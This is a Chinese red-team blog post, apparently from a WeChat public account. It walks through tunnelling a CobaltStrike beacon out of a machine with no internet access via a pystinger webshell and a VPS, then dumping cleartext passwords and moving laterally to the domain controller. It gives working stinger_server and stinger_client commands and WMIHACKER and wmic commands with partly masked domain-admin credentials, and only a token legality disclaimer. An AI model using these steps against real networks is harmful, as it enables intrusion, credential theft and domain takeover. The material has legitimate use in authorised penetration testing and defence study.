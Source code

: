 ##  [不出网的内网域渗透] 如何基于 http 隧道使用 pystinger 上线不出网机器到 CobaltStrike？

原创 渗透攻击红队  [ 渗透攻击红队 ](javascript:void\(0\);)

**渗透攻击红队** ![]()

微信号 RedTeamHacker

功能介绍 一个专注于渗透红队攻击的公众号

____

__

收录于话题

#内网渗透 13

#红队攻击 44

#域内渗透 30

#工具使用 18

渗透攻击红队

一个专注于红队攻击的公众号

![](https://gitee.com/fuli009/images/raw/master/public/20210806181644.png)  
  

大家好，这里是  **渗透攻击红队** ** ** 的第 **68**
篇文章，本公众号会记录一些红队攻击的案例，不定时更新！请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关！

  

当跳板机器出网的情况下，我们可以随意内网渗透，只需注意免杀问题，那如何拿到一个 Webshell 不出网的情况下，如何进目标内网？如何上线到 C2？

  

 **不出网的内网域渗透**

##

 **前言**

  

首先是拿到了一个 Webshell：

![](https://gitee.com/fuli009/images/raw/master/public/20210806181645.png)

通过初步判断当前机器 icmp 不出网：

![]()

那怎么办呢？我们可以基于 HTTP 隧道打！  

  

 **基于 HTTP 隧道上线到 CobaltStrike**

  

项目地址：https://github.com/FunnyWolf/pystinger

这个东东可以让 Webshell 实现内网 Socks4 代理，让不出网机器上线到 MSF/CS，使用 python 写的一款工具，支持目标站点
php、jsp（x）、aspx 三种脚本语言！

先上传对应的 Pystinger webshell 文件并成功访问：  

![](https://gitee.com/fuli009/images/raw/master/public/20210806181646.png)

然后我们还需要将 stinger_server.exe 上传到目标服务器 ，执行如下命令：  

  * 

    
    
    start c:\Windows\temp\cookie\stinger_server.exe 0.0.0.0

![](https://gitee.com/fuli009/images/raw/master/public/20210806181647.png)

然后将 stinger_client 上传到 vps ，执行如下命令  

  * 

    
    
    ./stinger_client -w http://saulgoodman.cn:9009//wls-wsat/proxy.jsp -l 0.0.0.0 -p 60000

![](https://gitee.com/fuli009/images/raw/master/public/20210806181648.png)

此时已将目标服务器的 60020 端口映射到 VPS 的 60020 端口了！  

这个时候我们 CobaltStrike 设置监听，http host 填写目标内网的  IP 地址：192.168.0.9，端口填写 60020:  

![](https://gitee.com/fuli009/images/raw/master/public/20210806181649.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210806181650.png)

然后我们生成一个 exe，监听器就是刚刚设置的那个：  

![](https://gitee.com/fuli009/images/raw/master/public/20210806181651.png)

然后目标运行 exe 马，直接上线到 CobaltStrike：  

![](https://gitee.com/fuli009/images/raw/master/public/20210806181652.png)

  

 **内网信息搜集**

  

通过 nbtscan 对当前内网进行信息搜集发现当前内网是存在域环境的：

![](https://gitee.com/fuli009/images/raw/master/public/20210806181653.png)

由于当前已经是 administrator 了，且是 Windows 2008 的机器，可以直接抓明文：

![](https://gitee.com/fuli009/images/raw/master/public/20210806181654.png)

抓到了本地管理员和域管明文还有一些域用户的明文！既然域控是 192.168.0.2 这台，那么直接 WMI 横向把：

  * 

    
    
    shell cscript  c:\windows\temp\WMIHACKER.vbs /cmd 192.168.0.2 BExxxx\administrator vmxxxxx whoami 1

![](https://gitee.com/fuli009/images/raw/master/public/20210806181655.png)

直接拿到域控 system 权限！我们还可以用系统自带的 WMI 来执行命令，只不过命令不回显：

  *   *   * 

    
    
    wmic /node:192.168.0.2 /user:BEHxxxx\administrator /password:vm$xxxx process call create "cmd.exe /c ipconfig > c:\result.txt"            type \\192.168.0.2\c$\result.txt

![](https://gitee.com/fuli009/images/raw/master/public/20210806181656.png)

这篇文章主要就是想表达不出网也是可以对它进行内网渗透的，并不是遇到不出网环境就不能打内网，方法很多，知识面还是会决定你的杀伤链！

  

![](https://gitee.com/fuli009/images/raw/master/public/20210806181657.png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](https://gitee.com/fuli009/images/raw/master/public/20210806181658.png)

  

  

![]()点分享![](https://gitee.com/fuli009/images/raw/master/public/20210806181659.png)点点赞![]()点在看

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

[不出网的内网域渗透] 如何基于 http 隧道使用 pystinger 上线不出网机器到 CobaltStrike？

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

